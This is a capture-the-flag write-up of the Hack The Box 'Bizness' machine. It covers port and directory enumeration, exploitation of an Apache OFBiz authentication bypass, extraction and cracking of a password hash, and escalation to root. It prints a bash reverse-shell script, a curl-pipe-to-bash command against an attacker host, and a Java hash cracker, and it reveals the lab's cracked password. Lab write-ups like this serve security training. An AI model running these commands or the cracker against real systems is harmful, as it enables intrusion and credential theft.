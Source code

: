 ```yaml
---
title: HTB Bizness Writeup
author: Elus1nist
layout: post
date: 14 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/1919b64800f6676d0c0d285a9d664cee.png
---
```

Welcome! This is my writeup of the new Season 4 Easy machine from HTB, Bizness. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.252
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.252
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `bizness.htb` (add to `/etc/hosts` file)
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Bizness/Bizness_Webpage.png' | relative_url}}" >

### Directory Fuzzing

Fuzzig for directories with feroxbuster:
```sh
feroxbuster --url http://bizness.htb --filter-status 404
```
From the fuzzing we discover a directory - `/accounting`

Visiting this page:
<img src="{{- 'writeup_images/Bizness/Bizness_Webpage_accounting.png' | relative_url}}" >

---
---
## Public Exploit - (CVE-2023-51467 and CVE-2023-49070)

After a quick search of the vulnerabilities for OFBiz we stumble across this github page - [OFBiz Authentication Bypass RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

After download ing the exploit I write a simple reverse shell bash script `bash_shell.sh`:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.73/9101 0>&1
```
Then on my attacker machine I start a python http server on port 9001 and a nc listener on port 9101.

Running the exploit as follows results in a reverse shell:
```sh
python3 exploit.py --url http://bizness.htb --cmd 'curl http://10.10.16.73:9001/bash_shell.sh | /bin/bash'
```

This gives us the user flag in the `/home/ofbiz` directory

---
---
## Hash Reversing

Once we have the shell we can find and exfiltrate the `c54d0.dat: Derby Database` file.

Extracting important information from file:
```sh
grep c54d0.dat -e 'Password'

./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

We need to now see how the application Hashes its passwords and hopefully we can reverse engineer a password cracker:

Using the commens-codec library and rockyou.txt wordlist we can write the following cracker in Java:
```java
import org.apache.commons.codec.binary.Base64;
import java.io.BufferedReader;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.io.IOException;
import java.io.FileReader;
import java.io.*;

public class Main {
    public static void main(String[] args) {

        System.out.println("Starting Attack");
        System.out.flush();
        String filePath = "/usr/share/wordlist/rockyou.txt";

        try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
            String line;

            while ((line = reader.readLine()) != null) {
                System.out.println("[*] Trying word: "+ line);
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
This gives us the cracked password:
`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I : monkeybizness`

---
---
## Privelege Escalation

Once we have a password we can try logging in as `root`:

```
su
monkeybizness
```

BOOM! PWNED.ZIP ACHIEVED!

<img src="https://giffiles.alphacoders.com/206/206739.gif">